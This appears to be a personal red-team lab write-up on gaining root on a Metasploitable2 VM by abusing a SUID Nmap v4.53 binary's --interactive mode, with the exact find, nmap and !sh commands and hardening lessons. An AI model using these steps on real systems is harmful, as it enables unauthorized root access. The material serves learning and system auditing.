 # 🧱 Lab05 – Privilege Escalation via SUID Nmap Binary

> **Date:** 29 May 2025  
> **Target:** Metasploitable2 – Linux System  
> **Vulnerability:** Misconfigured SUID binary of Nmap v4.53  
> **Technique:** Local Privilege Escalation via `--interactive` shell

---

## 🛡️ Description

This lab demonstrates a classic **Local Privilege Escalation (LPE)** technique using an outdated version of Nmap (`v4.53`) installed with the **SUID bit** set.  
Nmap’s deprecated `--interactive` mode allows arbitrary shell command execution, enabling escalation to **root** privileges when misconfigured.

---

## 🎯 Target System

- Metasploitable2 Linux VM  
- Vulnerable binary: `/usr/bin/nmap`  
- Permissions: SUID enabled (`-rwsr-xr-x`)

---

## 🧨 Exploitation Steps

1. 🔍 **Identify SUID binaries related to Nmap**
```bash
find / -perm -4000 -type f -name "*nmap*" 2>/dev/null
```

2. **Run Nmap in interactive mode:**
   ```bash
   /usr/bin/nmap --interactive
   
3. **Spawn a root shell:**
   ```bash
   nmap> !sh
   
4. **Verify root access:**
   ```bash
   whoami
   id
---

## 📊 Real-World Relevance
SUID misconfigurations are common in poorly maintained Linux systems. Outdated tools with legacy features like --interactive pose serious risks when granted root-level privileges.
This technique is directly applicable in internal pentests, CTFs, and Red Team post-exploitation phases.

## 🧠 What I Learned
- How to locate and analyze SUID binaries on Linux

- The danger of outdated tools with elevated execution rights

- How to gain root access using legitimate binaries via legacy features

- Reinforced importance of privilege separation in system hardening

## Screenshot
![Nmap Privilege Escalation](https://github.com/ATTezel/RedTeam-Labs/blob/main/lab5/Screen%20Shot%202025-05-29%20at%2015.45.28.png)

## 📁 Notes
- nmap --interactive has been removed in newer versions

- This is a great example of why system audits must include permission checks

- Learned to handle local escalation without external scripts/tools
